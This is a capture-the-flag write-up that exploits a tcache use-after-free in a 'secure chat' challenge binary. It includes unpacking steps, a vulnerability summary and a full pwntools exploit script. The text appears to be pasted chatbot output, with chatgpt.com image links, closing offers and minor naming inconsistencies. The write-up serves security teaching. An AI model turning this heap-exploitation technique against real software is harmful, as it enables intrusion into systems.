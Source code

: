 # Chat System Breach - Writeup

---

## Binary Inspection

We begin by analyzing the binary and for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable packed with UPX.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary to make it analyzable by UPX tool.

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Challenge Overview

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Code Walkthrough

```c
new_chat():
  malloc(0x208) → struct
  malloc(0x40)  → name_chunk
  store pointer in struct->[1]

delete_chat():
  free(name_chunk)
  prompt (Y/N)
  if N → struct stays, name_chunk freed to tcache

password_alloc():
  s1 = malloc(0x40)  // reuses freed name_chunk

rename_chat():
  read input into struct->[1] (now s1)

verify_password():
  if (!strncmp(s1, "53cr37_c0d3", 11))
    system("./log");
```

---

## Exploit Script (Pwntools)

```python
from pwn import *

elf = ELF('./securechat')
p   = process(elf.path)

def new_chat(idx, name, msg):
    p.sendlineafter('> ', '1')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', name.ljust(0x40, b'\x00'))
    p.sendafter('reply ASAP :', msg)

def delete_chat(idx, confirm):
    p.sendlineafter('> ', '2')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('(Y/N):', confirm)

def rename_chat(idx, new_name):
    p.sendlineafter('> ', '3')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    p.sendlineafter('> ', '7')

# 1) Create chat at index 0
new_chat(0, b'A'*8, b'HELLO')

# 2) Free name chunk but cancel deleting chat
delete_chat(0, b'N')

# 3) Allocate password buffer (s1) reusing freed chunk
p.sendlineafter('> ', '5')

# 4) Overwrite password buffer with correct secret
rename_chat(0, b'53cr37_c0d3')

# 5) Trigger verification to pop shell/log
verify_password()

p.interactive()
```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

---

## Additional Notes

- The key to exploitation is **tcache freelist reuse** via **use-after-free**.
- Cancelling the chat deletion keeps the struct valid, enabling us to overwrite `s1`.
- A solid understanding of **heap behavior** and **tcache internals** is essential here.

---

## Image Gallery

| Step | Description                         | Image                                                 |
| ---- | ----------------------------------- | ----------------------------------------------------- |
| 1    | Check binary type with `file`       | ![file output](https://chatgpt.com/c/img/1.png)       |
| 2    | Checksec (packed) shows protections | ![checksec packed](https://chatgpt.com/c/img/2.png)   |
| 3    | UPX unpacking in action             | ![upx unpack](https://chatgpt.com/c/img/3.png)        |
| 4    | Confirm unpacked format with `file` | ![file unpacked](https://chatgpt.com/c/img/4.png)     |
| 5    | Re-run `checksec` after unpacking   | ![checksec unpacked](https://chatgpt.com/c/img/5.png) |

---

Let me know if you want:

- Heap/tcache diagrams
- Animated GIF of the exploit running
- Printable PDF version

Happy pwning!

---

If you want, I can help you generate that GIF or any other media for your README!
